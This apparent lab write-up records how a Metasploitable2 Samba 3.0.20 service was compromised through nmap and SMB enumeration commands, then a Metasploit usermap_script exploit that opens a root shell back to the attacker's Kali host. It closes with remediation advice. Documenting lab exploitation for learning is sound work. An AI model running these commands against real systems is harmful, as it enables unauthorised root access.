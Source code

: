 # Metasploitable2 – Samba 3.0.20 (Port 445)

**Date:** 2025-09-05  
**Target:** 192.168.56.101  
**Attacker:** Kali Linux 2025.2 (192.168.56.102)  

---

## Recon

Nmap identified port 445 open running Samba 3.0.20:

```bash
nmap -sV -p 445 192.168.56.101 -oN nmap_samba_results.txt

Results:

445/tcp open netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)

Enumerating shares with smbclient:
smbclient -L //192.168.56.101/ -N
smbclient //192.168.56.101/tmp -N

Enum4linux enumeration:
enum4linux -a 192.168.56.101 | tee smb_enum_results.txt
Discovered users/groups such as backup, daemon, games, etc.

Exploitation (Metasploit)
use exploit/multi/samba/usermap_script
set RHOST 192.168.56.101
set LHOST 192.168.56.102
exploit

Proof of Compromise
Successful exploitation resulted in a root shell:
whoami
root
uname -a
Linux metasploitable 2.6.24-16-server ...

## Artifacts
- [Nmap results](./nmap_samba_results.txt)
- [SMB enumeration](./smb_enum_results.txt)
- Screenshot: ![Root shell](./images/root-shell-samba.png)

Remediation
Upgrade Samba to a secure version (>= 3.0.25).
Disable anonymous SMB access where not required.
Restrict SMB to trusted networks only.

---


